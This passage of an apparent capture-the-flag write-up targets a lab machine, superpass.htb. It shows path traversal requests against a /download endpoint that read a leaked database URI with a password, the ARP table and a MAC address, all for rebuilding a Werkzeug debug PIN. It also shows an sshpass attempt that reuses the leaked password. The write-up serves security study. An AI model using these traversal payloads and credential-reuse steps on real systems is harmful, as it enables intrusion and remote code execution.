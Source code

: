 ```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 07:57:53 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 88
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

I tried this password to SSH in to the user accounts we found previously:

```bash
$sshpass -p 'dSA6l7q*yIVs$39Ml6ywvgK' ssh dev_admin@superpass.htb
Permission denied, please try again.
```

Sadly all attempts for the valid users gave a permission denied error.

We at least know `WERKZEUG_DEBUG_PIN` doesn't appear to be set, so we have to follow the rest of the werkzeug `__init__.py` script above used to generate the console PIN.

Let's look at the ARP table using procfs, to find which physical interface (well, likely virtual) our machine's LAN IP address is bound to:

`GET /download?fn=../../../../../proc/net/arp HTTP/1.1`

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 08:20:28 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 156
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:e5:fa     *        eth0
```

So, what's the MAC address for interface `eth0`?

`GET /download?fn=../../../../../sys/class/net/eth0/address HTTP/1.1`

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 08:21:40 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 18
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

00:50:56:b9:5b:a3
```
